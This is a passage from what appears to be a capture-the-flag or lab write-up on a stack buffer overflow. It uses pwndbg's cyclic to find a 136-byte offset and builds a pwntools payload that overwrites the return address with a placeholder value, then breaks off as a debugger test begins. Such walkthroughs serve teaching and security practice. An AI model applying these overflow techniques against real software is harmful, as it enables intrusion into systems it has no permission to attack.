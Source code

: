 So how large is the offset?
{: style="text-align: justify;"}
```
pwndbg> cyclic -l 0x6261616a
136
```

136 characters. Let’s see if we can tweak the payload to get complete control over the return address. The line initializing the payload is now
{: style="text-align: justify;"}
```
payload = cyclic(136) + p64(0xdeadbeef)
```

Time for a field test. Opening *tmux*, launching the exploit, and stepping through the **start_level()** function in Pwndbg, we get
{: style="text-align: justify;"}
<div style="text-align:center">